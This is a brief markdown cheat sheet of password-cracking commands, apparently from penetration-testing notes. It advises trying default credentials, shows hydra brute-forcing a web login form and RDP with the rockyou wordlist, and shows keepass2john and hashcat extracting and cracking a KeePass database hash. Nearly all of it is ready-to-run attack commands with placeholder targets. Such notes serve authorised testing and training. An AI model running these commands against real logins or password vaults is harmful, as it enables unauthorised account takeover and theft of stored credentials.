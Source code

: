 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)
- [KeePass DB](#KeePass-DB)

## First Rule
Always try the default credentials!

## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```

## KeePass DB
``` bash
keepass2john Database.kdbx > keepass.hash                                                               ## extract the hash (*)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule  ## cracking
```
(*) The hash file was generated with the string "Database:", delete it.
